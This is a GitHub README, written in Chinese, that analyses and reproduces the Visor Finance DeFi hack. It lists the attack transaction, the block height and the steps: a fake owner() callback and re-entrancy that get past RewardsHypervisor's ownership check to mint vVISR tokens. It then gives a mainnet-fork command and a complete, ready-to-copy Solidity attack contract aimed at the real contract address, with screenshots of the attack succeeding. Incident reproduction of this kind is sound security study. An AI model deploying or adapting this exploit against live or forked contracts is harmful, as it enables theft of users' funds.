 # Visor_Finance_Vul_Poc
Visor Finance 攻击事件的分析和复现


## 事件分析

* 攻击交易

```
0x69272d8c84d67d1da2f6425b339192fa472898dce936f24818fda415c1c1ff3f
```

* 攻击发生的块高度

```
13849007 
```
* 攻击步骤

1. 调用`RewardsHypervisor`的`deposit`函数, 传入参数为：
    1. 质押数量： 100000000000000000000000000
    2. From 地址： 攻击合约自己的地址
    3. To 地址: 攻击者的EOA地址

2.  第一步操作会回调攻击合约的`owner`函数, 攻击合约的返回值为: 攻击合约自己的地址

3.  第一步操作还会再次回调攻击合约的`delegatedTransferERC20`函数, 导致重入攻击
    在`delegatedTransferERC20`函数中, 攻击合约再次调用`RewardsHypervisor`的`deposit`函数,传入参数与第一步相同
    (这一步我在POC中省略了)

4.  绕过`require(IVisor(from).owner() == msg.sender)`的检测后, `RewardsHypervisor`合约给攻击者的EOA地址铸造了  
    `97624975481815716136709737`个`vVISR`
    
    
## 复现

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@13849006   -l 4294967295
```

* 部署攻击合约

* 因为攻击步骤过于简单, 所以下面是完整代码, 可以直接复制

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface IRewardsHypervisor {
    function deposit(
        uint256 visrDeposit,
        address from,
        address to
    ) external returns (uint256 shares);

    function owner() external view returns (address);

    function snapshot() external;

    function transferOwnership(address newOwner) external;

    function transferTokenOwnership(address newOwner) external;

    function visr() external view returns (address);

    function vvisr() external view returns (address);

    function withdraw(
        uint256 shares,
        address to,
        address from
    ) external returns (uint256 rewards);
}


contract poc{
    
    address RewardsHypervisor_Address = 0xC9f27A50f82571C1C8423A42970613b8dBDA14ef;

    address public EOA_Address;

    constructor() {

        EOA_Address =  msg.sender;
    
    }

    function attack() external{

        IRewardsHypervisor(RewardsHypervisor_Address).deposit(100000000000000000000000000,address(this),EOA_Address);

    }


    function owner() external returns(address){

        return(address(this));

    }


    function delegatedTransferERC20(address token, address to, uint256 amount) external{}

}
```

* 点击`Attack`

![image](https://github.com/W2Ning/Visor_Finance_Vul_Poc/blob/main/images/attack.png)

* 攻击结束

![image](https://github.com/W2Ning/Visor_Finance_Vul_Poc/blob/main/images/success.png)

